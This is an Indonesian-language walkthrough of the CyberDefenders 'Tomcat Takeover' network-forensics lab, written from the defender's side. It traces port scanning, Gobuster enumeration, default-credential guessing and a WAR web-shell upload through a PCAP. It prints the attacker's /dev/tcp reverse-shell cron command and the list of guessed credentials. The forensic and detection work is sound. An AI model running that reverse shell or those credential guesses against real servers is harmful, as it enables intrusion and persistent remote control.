



# Tomcat Takeover Lab — CyberDefenders

> **Platform:** CyberDefenders  
> **Category:** Network Forensics  
> **Difficulty:** Easy  
> **Status:** ✅ Completed  
> **Date:** 2026-08-10  
> **Time Spent:** ~30 menit  

---

## 📌 Prolog

Lab ini fokus menganalisis network traffic pakai Wireshark — mulai dari custom columns, filters, sampai statistics — untuk mengidentifikasi akses mencurigakan ke halaman administrasi web server dan potensi kompromise yang terjadi.

---

## 🎯 Scenario

Tim SOC mendeteksi aktivitas mencurigakan di sebuah web server dalam intranet perusahaan. Untuk memahami situasinya lebih jauh, mereka menangkap network traffic untuk dianalisis. File PCAP yang tersedia kemungkinan berisi bukti aktivitas malicious yang berujung pada kompromise-nya web server Apache Tomcat. Tugasnya adalah menganalisis file PCAP tersebut untuk memahami scope dari serangan ini.

---

## ❓ Questions

1. Given the suspicious activity detected on the web server, the PCAP file reveals a series of requests across various ports, indicating potential scanning behavior. Can you identify the source IP address responsible for initiating these requests on our server?
2. Based on the identified IP address associated with the attacker, can you identify the country from which the attacker's activities originated?
3. From the PCAP file, multiple open ports were detected as a result of the attacker's active scan. Which of these ports provides access to the web server admin panel?
4. Following the discovery of open ports on our server, it appears that the attacker attempted to enumerate and uncover directories and files on our web server. Which tools can you identify from the analysis that assisted the attacker in this enumeration process?
5. After the effort to enumerate directories on our web server, the attacker made numerous requests to identify administrative interfaces. Which specific directory related to the admin panel did the attacker uncover?
6. After accessing the admin panel, the attacker tried to brute-force the login credentials. Can you determine the correct username and password that the attacker successfully used for login?
7. Once inside the admin panel, the attacker attempted to upload a file with the intent of establishing a reverse shell. Can you identify the name of this malicious file from the captured data?
8. After successfully establishing a reverse shell on our server, the attacker aimed to ensure persistence on the compromised machine. From the analysis, can you determine the specific command they are scheduled to run to maintain their presence?

---

## 🔍 Answer & Walkthrough

### Starting Point — Ekstrak & Orientasi Traffic

Ekstrak file PCAP yang disediakan lab, lalu buka pakai Wireshark. Total ada 21.070 packet dengan 7 endpoint yang tercatat:

| IP | Packet | Bytes |
|---|---|---|
| `10.0.0.105` | 138 | 26 kB |
| `10.0.0.106` | 1 | 160 bytes |
| `10.0.0.112` | 20.930 | 2 MB |
| `10.0.0.115` | 1.460 | 404 kB |
| `10.0.0.255` | 2 | 545 bytes |
| `14.0.0.120` | 19.607 | 2 MB |
| `224.0.0.251` | 2 | 247 bytes |

Semua host ada di subnet internal `10.0.0.0/24`, kecuali `14.0.0.120` (asing/eksternal) dan `224.0.0.251` (multicast/mDNS — bukan traffic relevan).

Yang langsung mencurigakan: `14.0.0.120` dan `10.0.0.112` punya volume byte yang hampir identik (~2 MB) — indikasi kuat kedua host ini saling komunikasi dalam jumlah besar. Cek lewat `Statistics → Conversations`, dan benar saja — dua IP ini memang saling terhubung:



---

### 1. Source IP address responsible for initiating scanning requests?

Dari conversation stats di atas, `14.0.0.120` adalah satu-satunya IP di luar subnet internal `10.0.0.0/24` yang generate traffic besar ke web server (`10.0.0.112`) — jelas ini IP attacker.

**Jawaban:** `14.0.0.120`

---

### 2. Country from which the attacker's activities originated?

IP `14.0.0.120` di-lookup pakai IP2Location, hasilnya origin dari China (Guangdong, Guangzhou).



**Jawaban:** `China`

---

### 3. Which port provides access to the web server admin panel?

Filter traffic komunikasi antara kedua IP: `(ip.src==14.0.0.120 || ip.src==10.0.0.112) && (ip.dst==10.0.0.112 || ip.dst==14.0.0.120)` — keliatan pola stealth SYN scan (`T1595.001`) dari attacker. Dari hasil scan ini, ada 3 port yang aktif: `22`, `8009`, dan `8080`. Port `8080` inilah HTTP interface Apache Tomcat, termasuk akses ke admin/manager panel-nya.

**Jawaban:** `8080`

---

### 4. Tools that assisted the attacker in directory/file enumeration?

Filter traffic HTTP dari attacker ke port 8080 (`ip.src==14.0.0.120 && tcp.dstport==8080`), keliatan banyak banget GET request ke berbagai path (`/examples`, `/docs/`, `/admin-console`, `/manager`, `/manager/deploy`, dst) dalam waktu singkat — pola classic directory brute-force. Cek header `User-Agent` di salah satu request-nya, ketauan tool yang dipakai:

```
User-Agent: gobuster/3.6
```




**Jawaban:** `Gobuster`

---

### 5. Admin panel directory discovered by the attacker?

Dari hasil enumerasi Gobuster yang sama, salah satu path yang direspon server dan paling berbahaya kalau bisa diakses publik adalah `/manager` — endpoint manajemen Tomcat itu sendiri (beserta turunannya seperti `/manager/html`, `/manager/deploy`, `/manager/list`, dll).

**Jawaban:** `/manager`

---

### 6. Username and password used for login?

Setelah nemu path `/manager/html`, attacker coba brute-force manual — 6 percobaan login sampai berhasil:

| Percobaan | Kredensial | Response |
|---|---|---|
| 1 | `admin:admin` | `401` |
| 2 | `tomcat:tomcat` | `401` |
| 3 | `admin:` | `401` |
| 4 | `admin:s3cr3t` | `401` |
| 5 | `tomcat:s3cr3t` | `401` |
| 6 | `admin:tomcat` | `200` |

Percobaan ke-6 berhasil dengan response `200 OK`.

**Jawaban:** `admin:tomcat`

---

### 7. Malicious file name for the reverse shell?

Setelah berhasil login ke Tomcat Manager, attacker upload file lewat endpoint `/manager/html/upload`. File yang di-upload berekstensi `.war` — format deployable Tomcat yang begitu ter-deploy otomatis bisa dieksekusi sebagai web shell.

**Jawaban:** `JXQOZY.war`

---

### 8. Scheduled command to maintain persistence?

Begitu file `.war` diakses, langsung ada indikasi RCE — attacker pertama coba jalanin `whoami` buat verifikasi eksekusi command berhasil. Setelah itu, attacker set cron job yang mengarah ke reverse shell balik ke IP attacker lewat port `443`:

```bash
/bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'
```

**Jawaban:** `/bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'`

---

## 🚨 Key Findings / IOCs

| Tipe | Value | Keterangan |
|------|-------|------------|
| IP Address | `14.0.0.120` | Attacker, origin China (Guangdong) |
| IP Address | `10.0.0.112` | Korban — web server Apache Tomcat |
| Port | `8080` | HTTP interface Tomcat, termasuk Manager panel |
| Path | `/manager`, `/manager/html` | Tomcat Manager admin interface yang berhasil diakses |
| Credential | `admin:tomcat` | Kredensial valid hasil brute-force |
| File | `JXQOZY.war` | Malicious WAR file berisi web shell |
| Reverse Shell Command | `/bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'` | Command cron buat maintain persistence, connect balik ke attacker port 443 |
| Tool | `gobuster/3.6` (User-Agent) | Tool directory/file enumeration attacker |

---

## 🗺️ MITRE ATT&CK Mapping

| Tactic | Technique | ID | Keterangan |
|--------|-----------|----|------------|
| Reconnaissance | Active Scanning: Scanning IP Blocks | T1595.001 | Stealth SYN scan ke berbagai port (`22`, `8009`, `8080`) di web server |
| Discovery | File and Directory Discovery | T1083 | Enumerasi path/direktori Tomcat pakai Gobuster |
| Credential Access | Brute Force: Password Guessing | T1110.001 | 6 percobaan login manual ke `/manager/html` sampai berhasil |
| Persistence | Server Software Component: Web Shell | T1505.003 | Upload `JXQOZY.war` lewat Tomcat Manager buat jadi web shell |
| Execution | Command and Scripting Interpreter: Unix Shell | T1059.004 | Eksekusi command (`whoami`) via web shell setelah RCE |
| Persistence | Scheduled Task/Job: Cron | T1053.003 | Cron job yang jalanin reverse shell command buat maintain persistence |

---

## 📋 Summary — Attacker Behavior & Todo

### Attacker Behavior

Serangan dimulai dengan stealth SYN scan dari `14.0.0.120` (China) ke web server internal `10.0.0.112`, nemuin 3 port aktif: `22`, `8009`, dan `8080`. Attacker fokus ke port `8080` — HTTP interface Apache Tomcat.

Attacker lanjut directory/file enumeration pakai Gobuster, nemuin endpoint sensitif `/manager` (Tomcat Manager). Karena panel ini butuh autentikasi, attacker coba brute-force manual — 5 percobaan gagal (`admin:admin`, `tomcat:tomcat`, `admin:`, `admin:s3cr3t`, `tomcat:s3cr3t`) sampai akhirnya berhasil di percobaan ke-6 dengan kredensial `admin:tomcat`.

Dengan akses admin, attacker upload file `JXQOZY.war` via `/manager/html/upload` — deployable WAR file yang begitu diakses langsung ngasih RCE. Attacker verifikasi akses dengan jalanin `whoami`, lalu langsung setup persistence dengan bikin cron job yang connect balik (reverse shell) ke `14.0.0.120` port `443` — memastikan mereka tetap punya akses ke server meskipun web shell awal ke-detect atau dihapus.

### Todo / Follow-up

- [ ] Pelajari cara deteksi stealth SYN scan (half-open scan) di level network monitoring/IDS — signature apa yang bisa dipakai
- [ ] Explore hardening Tomcat Manager — kenapa credential default/lemah kayak `tomcat:tomcat` masih sering ketemu di real world, dan best practice buat disable/restrict akses `/manager` dari luar
- [ ] Pelajari struktur WAR file lebih dalam — cara kerja JSP web shell yang biasa dipakai buat dapetin RCE via Tomcat Manager deploy
- [ ] Latihan bikin deteksi (Sigma/Suricata rule) buat pola reverse shell via `/dev/tcp` di cron job

---

## 📚 References

- [CyberDefenders — Tomcat Takeover Lab](https://cyberdefenders.org/)
- [MITRE ATT&CK](https://attack.mitre.org/)

---

*Writeup ini dibuat sebagai bagian dari perjalanan belajar Blue Team / SOC Analyst.*
